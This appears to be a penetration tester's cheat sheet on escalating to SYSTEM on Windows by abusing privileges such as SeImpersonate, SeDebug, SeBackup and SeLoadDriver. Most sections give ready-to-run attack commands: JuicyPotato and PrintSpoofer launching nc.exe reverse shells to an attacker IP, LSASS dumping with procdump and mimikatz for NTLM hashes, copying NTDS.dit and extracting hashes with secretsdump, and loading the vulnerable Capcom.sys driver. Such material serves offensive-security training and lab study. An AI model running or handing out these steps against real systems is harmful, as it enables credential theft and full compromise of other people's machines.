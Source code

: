 # Excessive User Rights Abuse

## Disclaimer - Disabled Rights

> * User privileges can be `assigned but disabled`.
> * Some of them can be `re-enabled` using scripts or commands depending on the privilege.

## **SeImpersonate & SeAssignPrimaryToken - JuicyPotato &  Printspoofer**

> * These privileges can be used to trick a process running as `SYSTEM` to connect to the exploit process, handing over the token to be used.
> * In other words, whenever a user has one of these privileges, it's possible to get privilege escalation by impersonating `NT AUTHORITY\SYSTEM`

### **Escalating Privileges with JuicyPotato**

1. Download juicypotato and nc.exe on the target machine
2. Check CLSIDs:
   1. Use `systeminfo` to get the OS version
   2. Select the right list according to the OS Version from [Juicy Potato CLSIDs](https://github.com/ohpe/juicy-potato/tree/master/CLSID)
   3. Download the `test_clsid.bat` file from the [JuicyPotato GitHub](https://github.com/ohpe/juicy-potato/blob/master/Test/test\_clsid.bat)
   4. Run `test_clsid.bat` and wait, then check the `result.log` file
   5. Inside that log file you will find different CLSIDs.
   6. Look for a CLSID with SYSTEM privileges
3. Start a netcat listener on the attacker machine: `nc -lvnp 4444`
4. Run JuicyPotato: `.\juicypotato.exe -l SAMEPORT -c CLSID_SYSTEM_FROM_RESULTS -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe attacker-ip SAME-LISTENING-PORT" -t *`
5. Disclaimer/Troubleshooting: the listening netcat port and the port specified after the `-l` flag need to be the same in order to get the reverse shell

***

### **Escalating Privileges with PrintSpoofer**

> * JuicyPotato doesn't work on Windows Server 2019 and Windows 10 build 1809 onwards.
> * PrintSpoofer and RoguePotato can be used on them to leverage the same privileges and gain NT AUTHORITY\SYSTEM level access.

* We can use the tool to spawn a SYSTEM process in the current console, spawn a SYSTEM process on a desktop (if logged on locally or via RDP), or catch a reverse shell
* PoC to get a Reverse Shell:
  1. Download `printspoofer.exe` and `nc.exe` on the target machine
  2. Start a netcat listener on the attacker machine: `nc -lvnp 4444`
  3. Run PrintSpoofer: `PrintSpoofer.exe -c "c:\tools\nc.exe attacker-ip netcat-port -e cmd"`

***

## **SeDebugPrivilege**

> * SeDebugPrivilege determines which users can attach to or open any process, even a process they do not own.
> * Developers who are debugging their applications **DO NOT need** this user right.
> * Developers who are debugging new system components **need** this user right.
> * This user right provides access to sensitive and critical operating system components.
> * This user right can be used to capture sensitive information from system memory, or access/modify kernel and application structures
> * Sometimes, developer users are assigned the debugprivilege rather than being added to the administrators group, who have this privilege by default

#### **SeDebugPrivilege to Dump LSASS**

1. Use ProcDump to extract a dump of the LSASS process:\
   `procdump.exe -accepteula -ma lsass.exe lsass.dmp`
2. Using `mimikatz.exe`:
   * `sekurlsa::minidump`
   * `sekurlsa::logonPasswords`
   * Gain the `NTLM Hashes` to use for a `Pass the Hash` attack or to `crack` them

***

#### **SeDebugPrivilege to gain Remote Code Execution as SYSTEM**

1. Get this [PoC Script](https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1) on the target system
2. Open an elevated powershell console (e.g. right click on PS and run as admin)
3. Run `tasklist` and look for a privileged process (e.g. `winlogon.exe`) and get its `PID`
4. Run the script:\
   `.\psgetsys.ps1; [MyProcess]::CreateProcessFromParent(<system_pid>,<command_to_execute>,"")`
5. Alternatively:
   1. `Import-Module .\psgetsys.ps1`
   2. `ImpersonateFromParentPid -ppid (Get-Process "lsass").Id -command "C:\tools\revshell.exe"`

***

## **SeTakeOwnershipPrivilege**

> SeTakeOwnershipPrivilege is a `policy setting` that determines which users can take ownership of any securable object

* Check target file current ownership
  * **PowerShell:** `Get-ChildItem -Path 'C:\Path\to\file.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }`
  * **CMD:** `cmd /c dir /q 'C:\Path\to\file.txt'`
  * **Disclaimer:** Sometimes the owner won't show due to lack of permissions
* To **take ownership** of a file: `takeown /f 'C:\Path\to\file.txt'`
* To enable **full permissions** on a file: `icacls 'C:\Path\to\file.txt' /grant htb-student:F`

***

## **SeBackupPrivilege**

> * A user with SeBackupPrivilege enabled can bypass file and directory, registry, and other persistent object permissions for the purposes of backing up the system.
> * This will let us copy a file from a folder, bypassing any access control list (ACL).
> * However, we can't do this using the standard copy command.
> * Instead, we need to programmatically copy the data, making sure to specify the `FILE_FLAG_BACKUP_SEMANTICS` flag.
> * We can use the built-in `robocopy` tool or the following `PoC` to copy any file: https://github.com/giuliano108/SeBackupPrivilege

***

#### **SeBackupPrivilege to Copy any file**

1. `Import-Module .\SeBackupPrivilegeUtils.dll`
2. `Import-Module .\SeBackupPrivilegeCmdLets.dll`
3. If the privilege is assigned but disabled, use `Set-SeBackupPrivilege` and verify with `Get-SeBackupPrivilege`
4. Copy a file: `Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt`

***

#### **SeBackupPrivilege to Copy any file with robocopy \[Built-in Utility]**

* Robocopy is a built-in utility that can be used to copy files in backup mode.
* No external tools are required
* `robocopy /B E:\Windows\NTDS .\ntds ntds.dit`

***

#### **SeBackupPrivilege to copy NTDS.dit**

> * The NTDS.dit file is locked by default
> * We can use the Windows `diskshadow` utility to **create a shadow copy** of the C drive and expose it as E drive.
> * The NTDS.dit in this shadow copy won't be in use by the system.
> * Then, we can use the `Copy-FileSeBackupPrivilege cmdlet` to bypass the ACL and copy the NTDS.dit locally.

Follow these steps:

1. `Import-Module .\SeBackupPrivilegeUtils.dll`
2. `Import-Module .\SeBackupPrivilegeCmdLets.dll`
3. If the privilege is assigned but disabled, use `Set-SeBackupPrivilege` and verify with `Get-SeBackupPrivilege`
4. Copy the NTDS file: `Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit`
5. Extract hashes using SecretsDump: `secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL`

***

## **SeLoadDriverPrivilege**

> * This policy setting determines which users can dynamically load and unload device drivers.
> * This user right is not required if a signed driver for the new hardware already exists in the driver.cab file on the device
> * Device drivers run as highly privileged code.

**Example - Capcom.sys**

* A typically vulnerable driver to this attack is Capcom.sys, which can allow any user to execute shellcode with SYSTEM privileges
* Download on the target machine: [Capcom.sys file](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys)
* Download EopLoadDriver and transfer on the target machine: [EopLoadDriver](https://github.com/TarlogicSecurity/EoPLoadDriver/)
* PoC Usage: `EOPLOADDRIVER.exe RegistryServicePath DriverImagePath`
* PoC Usage with CapCom.sys: `EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\path-to-downloaded\Capcom.sys`

***

## **SeSecurityPrivilege**

* This policy setting determines which users can specify object access audit options for individual resources such as files, Active Directory objects, and registry keys.
* These objects specify their system access control lists (SACL).
* A user assigned this user right can also view and clear the Security log in Event Viewer.

***

## **SeRestorePrivilege**

* This security setting determines which users can bypass file, directory, registry, and other persistent object permissions when they restore backed up files and directories.
* It determines which users can set valid security principals as the owner of an object.
